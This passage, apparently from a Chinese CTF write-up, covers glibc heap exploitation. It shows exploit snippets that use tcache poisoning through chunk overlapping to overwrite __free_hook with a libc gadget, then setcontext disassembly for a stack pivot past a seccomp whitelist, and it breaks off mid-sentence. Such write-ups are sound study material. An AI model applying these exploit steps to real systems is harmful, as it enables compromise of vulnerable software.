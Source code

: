 然后进行 Tcache poisoning（这里我被卡了一小会，主要原因是一直想着通过 double free 来实现，这种想法确实挺蠢的，需要注意，Tcache poisoning 的利用只需要控制 next 指针就可以了，double free 往往是实现控制的方法，而不是必须，在本题有更好的方法，就不需要 double free 了）。

```
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
```

因为有 chunk overlapping，所以其实挺容易控制 next 指针的，比如通过上面这样的方法就可以分配到 __free_hook 了。

到这里就结束了堆上的利用，之后需要进行白名单绕过,我们只可以注入一个 gadget 到 __free_hook，而我们希望这个 gadget 能够实现栈迁移
一般考虑使用 setcontext 函数来进行栈迁移，其实现为

```
.text:0000000000055E00 ; __unwind {
.text:0000000000055E00                 push    rdi
.text:0000000000055E01                 lea     rsi, [rdi+128h] ; nset
.text:0000000000055E08                 xor     edx, edx        ; oset
.text:0000000000055E0A                 mov     edi, 2          ; how
.text:0000000000055E0F                 mov     r10d, 8         ; sigsetsize
.text:0000000000055E15                 mov     eax, 0Eh
.text:0000000000055E1A                 syscall                 ; LINUX - sys_rt_sigprocmask
.text:0000000000055E1C                 pop     rdx
.text:0000000000055E1D                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000055E23                 jnb     short loc_55E80
.text:0000000000055E25                 mov     rcx, [rdx+0E0h]
.text:0000000000055E2C                 fldenv  byte ptr [rcx]
.text:0000000000055E2E                 ldmxcsr dword ptr [rdx+1C0h]
.text:0000000000055E35                 mov     rsp, [rdx+0A0h]
.text:0000000000055E3C                 mov     rbx, [rdx+80h]
.text:0000000000055E43                 mov     rbp, [rdx+78h]
.text:0000000000055E47                 mov     r12, [rdx+48h]
.text:0000000000055E4B                 mov     r13, [rdx+50h]
.text:0000000000055E4F                 mov     r14, [rdx+58h]
.text:0000000000055E53                 mov     r15, [rdx+60h]
.text:0000000000055E57                 mov     rcx, [rdx+0A8h]
.text:0000000000055E5E                 push    rcx
.text:0000000000055E5F                 mov     rsi, [rdx+70h]
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E76 ; } // starts at 55E00
```

从偏移 `0x55E35` 开始以 rdx 为基基数对许多寄存器进行了赋值，也就是说如果控制了 rdx，那么就可以实现栈迁移。然而比较讨厌的是，rdx 我们无法直接控制，只能控制 rdi，幸好比较巧合的，在 libc 中有这样一个 gadget
